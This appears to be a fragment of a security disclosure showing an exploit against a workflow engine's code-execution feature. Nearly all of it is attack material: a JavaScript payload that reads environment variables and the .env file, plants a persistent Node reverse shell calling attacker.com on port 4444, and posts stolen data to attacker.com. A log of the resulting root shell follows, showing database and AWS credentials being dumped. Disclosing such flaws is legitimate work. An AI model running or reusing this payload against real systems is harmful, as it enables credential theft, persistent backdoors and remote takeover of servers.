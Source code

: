 ### Advanced Exploitation
```javascript
// Attacker's malicious workflow
const exploit = `
  const fs = require('fs');
  const { exec } = require('child_process');
  
  // 1. Read environment variables
  const env = JSON.stringify(process.env);
  
  // 2. Find database credentials
  const dbConfig = fs.readFileSync('.env', 'utf8');
  
  // 3. Install backdoor
  const backdoor = 'const net=require("net");const sh=require("child_process").spawn("/bin/sh",[]);const client=net.connect(4444,"attacker.com",()=>{client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});';
  fs.writeFileSync('/tmp/.backdoor.js', backdoor);
  
  // 4. Make backdoor persistent
  exec('echo "node /tmp/.backdoor.js &" >> ~/.bashrc');
  
  // 5. Exfiltrate data
  const data = {env, dbConfig};
  require('https').request('https://attacker.com/collect', {
    method: 'POST'
  }).end(JSON.stringify(data));
  
  return 'Workflow completed successfully';
`;
```

### Server Compromise Log
```
[13:50:15] ✅ Environment variables extracted
[13:50:16] ✅ Database credentials obtained
[13:50:17] ✅ Backdoor installed at /tmp/.backdoor.js
[13:50:18] ✅ Persistence mechanism added
[13:50:19] ✅ Data exfiltration complete
[13:50:20] ✅ Reverse shell established

Attacker Console:
$ nc -lvp 4444
Connection from 192.168.1.100:52341
$ whoami
root
$ pwd
/app/workflow/engine
$ cat .env
DATABASE_URL=postgresql://admin:super_secret@localhost:5432/aixblock
AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCY
```
